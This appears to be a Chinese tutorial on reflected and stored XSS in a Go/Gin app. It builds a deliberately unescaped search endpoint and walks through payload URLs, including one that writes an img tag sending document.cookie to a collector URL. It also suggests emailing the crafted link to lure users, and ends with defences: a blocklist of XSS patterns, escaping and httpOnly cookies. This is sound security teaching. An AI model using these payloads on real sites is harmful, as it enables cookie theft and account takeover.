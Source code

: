 在web安全的领域中，xss攻击是最常见的一种攻击方式，xss攻击的核心思想就是在HTML页面中注入恶意代码获取敏感数据，比如cookie值；
xss分为三类：反射型、存储型、dom型，反射型xss和存储型xss属于服务器端的安全漏洞，而dom型xss属于前端自身的安全漏洞（本文忽略）；

### 反射型xss
本文用网站经常存在的搜索功能来演示反射型xss的攻击步骤；
```go
type KeywordField struct {
    Keyword string `binding:"required"`
}

func (ctr *Article) Search(c *gin.Context) {
    request := new(request.ArticleSearch)
    if err := c.ShouldBind(request); err != nil {
        c.JSON(http.StatusOK, gin.H{"err": err.Error()})
        return
    }

	// 种两个用于演示的cookie
	c.SetCookie("token", "token123456", 86400*30, "/", "127.0.0.1", false, false)
	c.SetCookie("userID", "1", 86400*30, "/", "127.0.0.1", false, false)

	c.HTML(http.StatusOK, "search.tmpl", gin.H{
        "keyword": template.HTML(request.Keyword), // 为了方便演示，template.HTML会显示原始字符串
        //"keyword": request.Keyword, // 默认会自动对特殊符号转义
	})
}
```
[源码链接](../param-validate-xss)

正常传参请求：

```
http://127.0.0.1:8080/article/search?Keyword=手机
```
<img src="../images/xss-1.jpg">

#### 第一步：确定注入点

```
http://127.0.0.1:8080/article/search?Keyword=<script>alert('XSS')</script>
```
<img src="../images/xss-2.jpg">

#### 第二步：获取敏感信息
```
http://127.0.0.1:8080/article/search?Keyword=<script>alert(document.cookie)</script>
```
<img src="../images/xss-3.jpg">

#### 第三步：收集敏感信息
```
http://127.0.0.1:8080/article/search?Keyword=<script>document.write('<img src="http://127.0.0.1:8080/cookies?'+document.cookie+'"/>')</script>
这里的+号浏览器访问有问题，转义一下
http://127.0.0.1:8080/article/search?Keyword=%3Cscript%3Edocument.write(%27%3Cimg%20src=%22http://127.0.0.1:8080/cookies?%27%2Bdocument.cookie%2B%27%22/%3E%27)%3C/script%3E
```
<img src="../images/xss-4.jpg">
服务器收集数据如下：
<img src="../images/xss-5.jpg">

#### 第四步：诱惑用户点击
把第三步精心设计的带有xss漏洞的url通过站内信或邮件的方式发给用户，内容为一些诱惑信息，目的是为了让用户单击链接，服务器收集到cookie之后再以用户的身份登录网站。

反射型xss应用场景：搜索、查询等用户输入数据需要在前端展示的场景；

### 存储型xss
存储型xss恶意代码通常存储在数据库中，用户只需浏览了包含恶意代码的页面即可在用户无感知的情况下触发，
而反射性xss需要诱导用户点击，所以存储型xss危害性更大。

例1:<br>
攻击者在文章评论中提交了恶意代码，所有浏览过这条评论的用户都会被收集敏感数据。

例2:<br>
攻击者在网站留言板块中提交了恶意代码，管理员在后台查看留言触发恶意代码，导致后台地址、管理员cookie泄漏。

存储型xss应用场景：用户名、昵称、留言、用户反馈、个人信息、发表文章、评论、私信等用户输入数据需要在前端展示的场景；

> 存储型xss原理跟反射性大同小异，这里不做代码演示，有兴趣的小伙伴可以自行深入学习。

#### 总结
**1、当遇到用户输入数据并且需要在前端展示的业务场景时，需要特别小心xss攻击（前端包括网站前端和后台前端）。**

**2、用户输入数据需要进行严格校验过滤。**
```go
type KeywordField struct {
    Keyword string `binding:"required,xss"`
}

var keywords = []string{
`(alert).*(\()`,
`(prompt).*(\()`,
`(eval).*(\()`,
`(window).*(\[)`,
`<script`,
`</script`,
`<x`,
`<X`,
`<http`,
`(function).*(\()`,
`<iframe`,
`(href).*(=)`,
`<br>`,
"alert`",
`(find).*(\()`,
`(top).*(\[)`,
`(vibrate).*(\()`,
`<object`,
`<embed`,
`<img`,
`<layer`,
`<style`,
`<meta`,
`=".*"`,
`<html`,
`(echo).*(\()`,
`(confirm).*(\()`,
`(write).*(\()`,
`</svg`,
`<div`,
`</image`,
`form>`,
`(vectors).*(\()`,
`<body`,
`(url).*(\()`,
`math>`,
`-->`,
`<!--`,
`<!attlist`,
`<label`,
`<%`,
`xmp>`,
`template>`,
`<!doctype`,
`=confirm`,
}

xss函数会检查参数是否包含keywords字符串数组里的恶意字符；
因为xss恶意代码还有很多变种，所以xss函数还会通过html转义、url转义、unicode转义、字符小写四个方面检测恶意字符；xss-validator是github开源项目，简单化放在项目里使用；
```
**3、页面输出用户数据时进行转义。**
```go
c.HTML(http.StatusOK, "search.tmpl", gin.H{
    "keyword": template.HTML(request.Keyword),
})
```
未转义的html源代码：
<img src="../images/xss-7.jpg">

```go
c.HTML(http.StatusOK, "search.tmpl", gin.H{
    "keyword": request.Keyword,
})
```
转义后的html源代码：
<img src="../images/xss-8.jpg">

这种方式有小概率的局限性，比如用户输入数据框不是textarea文本框，而是具有更高自由度的富文本框，这时候转义就会出错，
这种情况下更要严格校验用户输入。

<img src="../images/xss-6.jpg">

**4、条件允许的情况下，cookie可以设置httpOnly。**
```go
c.SetCookie("token", "token123456", 86400*30, "/", "127.0.0.1", false, false)
//最后一个参数就是httpOnly参数，当设置为true时，document.cookie拿不到token值
```
这种方式也有局限性，很多公司前后端分离，前端调用后端接口需要把token放在header头里，js需要拿到token值，httpOnly参数不能设置为true。

通过两节内容讲解了sql注入和xss攻击的原理步骤和防范措施，目的是有理有据的让大家老老实实的做参数校验，不要偷懒，参数校验是web安全的最重要一环。
